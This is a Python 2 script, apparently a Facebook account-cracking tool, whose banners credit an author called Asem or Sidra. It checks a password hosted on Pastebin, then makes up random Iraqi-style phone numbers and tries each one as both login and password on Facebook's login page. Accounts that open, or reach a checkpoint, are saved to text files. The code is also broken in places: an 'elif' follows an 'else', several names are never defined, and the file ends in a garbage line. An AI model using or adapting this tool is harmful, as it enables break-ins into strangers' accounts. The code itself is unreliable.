 try:
	import  os , sys , random, requests , time , json 
	from time import sleep 
except ImportError as Sidraelezz:
	sys.exit('[Error] ' + Sidraelezz + ' :-\\')
os.system("clear")
#----------------------------------------------------[colors-ASEM/\/\]----------------------------------------------------#
A = "\033[1;91m"
B = "\033[1;90m"
C = "\033[1;97m"
E = "\033[1;92m"
H = "\033[1;93m"
K = "\033[1;94m"
L = "\033[1;95m"
#----------------------------------------------------[Banner-ASEM/\/\]----------------------------------------------------#
Sidra= """ 
   \033[1;92m  /(____'''''''A   )       
   \033[1;97m /   _____////S  )
   \033[1;97m \_____//\\\{""""E )
   \033[1;97m ///"""""___________/__M )
   \033[1;97m/__--------__-------__------__------__-----___
   \033[1;92m        \/          \/              /\          /\

\033[1;93m < \033[1;92mTHE TOOL IS FREE\033[1;93m >  \033[1;91m 
 ---------------------------
 \033[1;91m(\033[1;92m*\033[1;91m) \033[1;97mAUTHOR     : asem62002@
 \033[1;91m(\033[1;92m*\033[1;91m) \033[1;97mTelegram   : asem62002
 \033[1;91m(\033[1;92m*\033[1;91m) \033[1;97mYOUTUBE    : https://t.me/joinchat/EkFEoXIhy8piM2I0
 \033[1;91m(\033[1;92m*\033[1;91m) \033[1;97mGITHUB     : GITHUB.COM/Asem.k. /\/\/\ .k.
""" 
Sidra0='''          
\033[1;95m           CODE: BY Sidra ELEzz
\033[1;92m            TELE: @asem62002
  
\033[1;92m _____              _                 _
\033[1;97m|  ___|_ _  ___ ___| |__   ___   ___ | | __
\033[1;97m| |_ / _` |/ __/ _ \ '_ \ / _ \ / _ \| |/ /
\033[1;97m|  _| (_| | (_|  __/ |_) | (_) | (_) |   <
\033[1;92m|_|  \__,_|\___\___|_.__/ \___/ \___/|_|\_\


\033[1;93m < \033[1;92mTHE TOOL IS FREE\033[1;93m >  \033[1;91m 
 ---------------------------
 \033[1;91m(\033[1;92m*\033[1;91m) \033[1;97mAUTHOR     : Asem.k. /\/\/\ .k.
 \033[1;91m(\033[1;92m*\033[1;91m) \033[1;97mTelegram   : @asem62002
 \033[1;91m(\033[1;92m*\033[1;91m) \033[1;97mYOUTUBE    : @asem62002
 \033[1;91m(\033[1;92m*\033[1;91m) \033[1;97mGITHUB     : GITHUB.COM/Asem.k./\/\/\ .k.                            '''
#----------------------------------------------------[Pastebin-ASEM/\/\]----------------------------------------------------#
def psb(s):
	for ASU in s + '\n':
		sys.stdout.write(ASU)
		sys.stdout.flush()
		sleep(50. / 700)
		
re = requests.get("https://pastebin.com/raw/BM46rqf7")
print Sidra
print "\033[1;97mFIRST STEP OF LOGIN"
print "\033[1;97m--------------------"
print "\033[1;97m " 
password = raw_input("          \033[1;93mtool PASSWORD: ")
print E
if password == ("asem") :
  sys.exit()
if password in str(re.text):
  psb(H+" FIRST STEP Is Done. Logged in Successfully as ")
  print "\033[1;93m "
  psb("\033[1;93mPlease Wait 5 Minutes, All Packages Are Checking.....")
else:
  print " Wrong Password !"
  os.system('xdg-open https://t.me/asem62002 ')
  sys.exit()
os.system('clear')
#----------------------------------------------------[(/\a/\$™/\s/\$™]----------------------------------------------------#

vuln=[]
check=[]

print Sidra
psb (A+"\n["+C+"1"+A+"]"+H+ "ASEM \//\/ ")
psb (A+"\n["+C+"0"+A+"]"+L+ "EXIT ")
psb (A)
TOOLs = str(raw_input(A+"\n["+C+"?"+A+"]"+H+ 'Choose the Tool :' + C))
if TOOLs == '1':
    import os
    os.system('apt install python2 -y')
    os.system('pip2 install mechanize')
    import cookielib
    from os import system as sy
    from random import randint as ran
    import sys, cookielib, mechanize, random
    sy('clear')
    print Sidra0 
    psb('\t\t\t078')
    psb('\t\t\t077')
    psb('\t\t\t075')
    psb('\t\t\t079')
    psb('\t\t\t07 ')
    Sid = str(0)
    i = str(raw_input(A+"\n["+C+"?"+A+"]"+H+ 'Enter Number >> :'+C))
    print("-"*50)
	

    def Sidra_ELEzz():
        for x in range(300000): 
            if i == '078':
                Ra = str(ran(7800000000L, 7899999999L))
            elif i == '077':
                Ra = str(ran(7700000000L, 7799999999L))
            elif i == '075':
                Ra = str(ran(7500000000L, 7599999999L))
            else:
                             Ra = str(ran(7790000000L, 7799999999L))
            elif i == '079':
             
                              Ra = str(ran(0700000000L, 0799999999L))
            elif i == '07':
                
               exit()
            login = 'https://www.facebook.com/login.php?login_attempt=1'
            useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]

            def main():
                br = mechanize.Browser()
                cj = cookielib.LWPCookieJar()
                br.set_handle_robots(False)
                br.set_handle_redirect(True)
                br.set_cookiejar(cj)
                br.set_handle_equiv(True)
                br.set_handle_referer(True)
                br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
                br.addheaders = [('User-agent', random.choice(useragents))]
                site = br.open(login)
                br.select_form(nr=0)
                br.form['email'] = Sid + Ra
                br.form['pass'] = Sid + Ra
                sub = br.submit()
                url = br.geturl()
                
                if 'save-device' in url or 'm_sess' in url: #Successful
                    print('\033[1;91m [\033[1;92mSIDRA-OK\033[1;91m] \033[1;92m%s \033[1;91m-> \033[1;92m %s '%(str(Sid + Ra), str(Sid + Ra)))
                    
                    if cek:
                    	vuln.append(Sid + Ra+"|"+Sid + Ra)
                    else:
                    	with open('Ok.txt','a') as f:
                             f.write(Sid + Ra+"|"+Sid + Rad + '\n')
    	
                elif 'checkpoint' in url: #Checkpoint
                    print('\033[1;91m [\033[1;92mSIDRA-CP\033[1;91m] \033[1;93m%s \033[1;91m-> \033[1;93m %s '%(str(Sid + Ra), str(Sid + Ra)))
                    
                    if cek:
                        check.append(Sid + Ra+"|"+Sid + Ra)
                        
                    else:
                        with open('check.txt','a') as f:
                        	f.write(Sid + Ra+"|"+Sid + Rad + '\n')
                    
                else: 
                    print('\033[1;91m [\033[1;92mSIDRA-START\033[1;91m] \033[1;97m%s \033[1;91m-> \033[1;97m %s '%(str(Sid + Ra), str(Sid + Ra)))

            main()


    if __name__ == '__main__':
        /\asem__----/\()






